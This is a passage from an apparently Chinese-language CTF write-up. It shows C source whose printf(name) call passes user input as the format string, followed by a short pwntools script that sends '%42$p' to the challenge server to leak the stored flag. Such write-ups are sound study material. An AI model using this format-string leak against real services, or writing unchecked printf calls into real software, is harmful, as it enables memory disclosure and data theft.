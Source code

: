 ```c
    };
    
    
    FILE *f = fopen("flag.txt","r");
    if (!f) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }
    fgets(&(boshsecrets.flag), 128, f);
    
    
    puts("Name: ");
    
    fgets(name, 6, stdin);
    
    
    printf("Welcome, ");
    printf(name);
    printf("\n");
    
    return 0;
}


int main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    vuln();
    
    return 0;
}
```

观察代码发现`printf(name);`有格式化字符串漏洞。利用次来找flag。

exp：

```python
from pwn import *

#e=ELF('stickystacks')
p=remote('shell.actf.co',21820)
#process('stickystacks')
#gdb.attach(p)
p.sendline('%42$p')
p.interactive()
```



## WEB
